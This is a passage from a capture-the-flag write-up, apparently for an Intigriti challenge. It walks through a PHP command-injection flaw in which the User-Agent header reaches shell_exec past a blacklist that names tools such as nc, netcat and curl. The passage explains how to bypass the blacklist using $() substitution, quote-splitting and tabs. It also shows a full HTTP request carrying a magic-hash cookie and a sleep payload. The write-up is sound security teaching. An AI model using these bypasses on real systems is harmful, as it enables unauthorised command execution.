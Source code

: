 Now either we simply change the username cookie to `admin` instead of `strange` or simply read the rest of the source code on admin.php.
If you want to change the cookie do it the same way we did with the magic hash but with the username cookie instead of the account_type.
Moving on!
<br>
<br>

## Remote Code Execution
```
<?php
$user_agent = $_SERVER['HTTP_USER_AGENT'];

#filtering user agent
$blacklist = array( "tail", "nc", "pwd", "less", "ncat", "ls", "netcat", "cat", "curl", "whoami", "echo", "~", "+",
 " ", ",", ";", "&", "|", "'", "%", "@", "<", ">", "\\", "^", "\"",
"=");
$user_agent = str_replace($blacklist, "", $user_agent);

shell_exec("echo \"" . $user_agent . "\" >> logUserAgent");
?>
```

The code above will extract User-Agent header from the request<br>
Then it will check for occurances of any items in the blacklist array and replace it with empty string.<br>
For exampel `echo hello world` would become `helloworld`.<br>
After this it will use shell_exec and concatenate `echo "[data from User-Agent header]" >> logUserAgent`.<br>
So the issue in question is that the User-Agent header is something we can manipulate.<br>
Now, the code does not forbid `$()` which is command substitution and pretty much means "execute this code and put the output here".<br>
Furthermore we can bypass the locked keywords by simply typing '' in the middle of them.<br>
Lets say we tell it `ca't'`, this will remove all instances of `'` and render us left with `cat`.<br>
It removes spaces as well, but no need to sweat it! tabs works just as well.<br> 
<br>

So for the sake of it;
```
GET /e7f717ed-d429-4d00-861d-4137d1ef29az/9709e993-be43-4157-879b-78b647f15ff7/admin.php HTTP/2
Host: challenge-0423.intigriti.io
Cookie: username=strange; account_type=QNKCDZO
Sec-Ch-Ua: "Chromium";v="112", "Google Chrome";v="112", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: $(sleep	5)
.....

```
And we see that the site sleeps for 5 seconds.
